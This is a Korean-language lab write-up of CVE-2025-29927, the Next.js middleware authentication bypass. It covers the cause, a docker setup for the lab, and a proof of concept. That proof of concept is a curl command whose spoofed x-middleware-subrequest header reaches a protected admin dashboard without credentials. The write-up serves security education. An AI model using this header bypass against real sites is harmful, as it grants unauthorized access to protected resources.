



# Next.js 미들웨어 인증 우회 (CVE-2025-29927)

> 화이트햇 스쿨 3기 33반- [권태연(@nostheblack)]
(https://github.com/nostheblack/kr-vulhub/tree/main/KwonTaeyeon/next.js/CVE-2025-29927)

<br/>

## 개요
- ​CVE-2025-29927은 Next.js의 미들웨어 시스템에서 발견된 심각한 인증 우회 취약점으로, 공격자가 내부용으로 설계된 x-middleware-subrequest HTTP 헤더를 악용하여 미들웨어를 우회하고 보호된 경로에 무단으로 접근할 수 있다.

-  Next.js의 미들웨어를 사용할 경우, 사용자가 특정 페이지나 API 경로에 대한 접근을 하기 전 세션 쿠키가 유효한지 확인하고 필요한 권한을 부여한다.

-  무한 루프를 방지하기 위해 내부적으로 사용하는 x-middleware-subrequest 헤더를 외부에서도 조작할 수 있어, 공격자가 이를 포함한 요청을 보내면 미들웨어가 해당 요청을 내부 요청으로 오인하여 인증 및 권한 부여 절차를 건너뛴다. 이로 인해 인증되지 않은 사용자가 보호된 리소스에 접근할 수 있다.

<br/>

## 환경 구축

- `docker compose up -d`  입력을 통해 취약한 환경을 세팅한다.



- 웹 브라우저에서 다음 주소로 접속한다.
 (기본 id/pw는 admin/password 이다.)

```http://localhost:3000```

<br/>

## PoC

- 만약 자격 증명 없이 dashboard에 접근한다면, 로그인페이지로 연결된다 :


    ```curl -i http://localhost:3000```





- 이 취약점을 악용하려면, 요청(request)에 `x-middleware-subrequest`라는 헤더를 추가하고 그 값으로 
`middleware:middleware:middleware:middleware:middleware`를 설정한다.그러면 Next.js의 미들웨어가 이 헤더를 잘못 처리해서 인증 검사를 우회하게 된다.


    ```curl -i -H "x-middleware-subrequest: middleware:middleware:middleware:middleware:middleware" http://your-ip:3000```





- HTTP 응답이 HTTP/1.1 200 OK로, 우회에 성공한 것을 볼 수 있고 admin Dashboard HTML을 표시하고 있다.


<br/>

## 참고 자료
- https://github.com/vulhub/vulhub/tree/master/next.js/CVE-2025-29927
- https://zhero-web-sec.github.io/research-and-things/nextjs-and-the-corrupt-middleware


